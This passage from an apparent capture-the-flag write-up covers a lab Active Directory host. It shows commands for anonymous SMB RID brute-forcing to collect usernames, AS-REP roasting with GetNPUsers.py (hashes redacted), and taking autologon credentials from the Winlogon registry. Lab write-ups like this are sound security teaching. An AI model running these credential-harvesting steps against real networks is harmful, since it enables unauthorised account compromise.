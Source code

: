 Since anonymous users have read access to the `IPC$` share on SMB, we can use this to enumerate users with RID bruteforce.

```console
$ cme smb haystack.thm.corp -u 'anonymous' -p '' --rid-brute 1500
...
SMB         haystack.thm.corp 445    HAYSTACK         1111: THM\3091731410SA (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1112: THM\ERNESTO_SILVA (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1113: THM\TRACY_CARVER (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1114: THM\SHAWNA_BRAY (SidTypeUser)
...
SMB         haystack.thm.corp 445    HAYSTACK         1147: THM\AUGUSTA_HAMILTON (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1148: THM\TREVOR_MELTON (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1149: THM\LEANN_LONG (SidTypeUser)
SMB         haystack.thm.corp 445    HAYSTACK         1150: THM\RAQUEL_BENSON (SidTypeUser)
...
```
Creating a list of valid usernames.

```console
$ cme smb haystack.thm.corp -u 'anonymous' -p '' --rid-brute 1500 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
```

### AS-REP Roast

With a list of valid usernames, we can test them for AS-REP Roast.

```console
$ GetNPUsers.py -request -format john -usersfile valid_usernames.txt thm.corp/

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
...
$krb5asrep$ERNESTO_SILVA@THM.CORP:[REDACTED]
...
$krb5asrep$TABATHA_BRITT@THM.CORP:[REDACTED]
...
$krb5asrep$LEANN_LONG@THM.CORP:[REDACTED]
...
```

Cracking the hashes, we get the password for `TABATHA_BRITT`.

### Finding credentials for automate

As `TABATHA_BRITT`, we can get access to the machine using `RDP` and find the autologon credentials for `automate` inside `HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` registry.

![WinLogon Credentials for automate](WinLogonCredentials.webp){: width="800" height="200" }
